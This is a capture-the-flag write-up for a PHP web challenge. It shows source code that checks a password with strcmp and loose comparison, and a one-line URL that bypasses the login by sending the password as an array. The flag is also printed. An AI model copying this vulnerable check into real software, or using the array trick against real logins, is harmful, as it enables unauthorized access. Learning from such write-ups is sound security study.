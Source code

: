 ```yaml
---
layout: writeup
title: 'L33t H4xx0r'
level:
difficulty:
points: 70
categories: [web]
tags: []
flag: abctf{always_know_whats_going_on}
---
```

## Challenge

If you could bypass the login you could get the flag. [Link][1]

## Solution

We get to a webpage with a password field and the message `Seems like
your not a haxxor`. We are also given the source:

    <?php
        $FLAGWEB6 = (file_get_contents("flag.txt"));
        $PASSWORD =  (file_get_contents("flag.txt")); //haha

        if(isset($_GET['password'])){

        if(strcmp($PASSWORD, $_GET['password']) == 0){
                $success = true;
            }
            else{
                $success = false;
            }
        }
        else {
            $success = false;
        }
    ?>
{: .language-php}

we see that they use the `strcmp` function to check the password. We can
bypass this
by supplying an array named password, instead of a variable, which will
always
return 0 in the strcmp function.

    http://yrmyzscnvh.abctf.xyz/web6/?password[]=bla



[1]: http://yrmyzscnvh.abctf.xyz/web6/
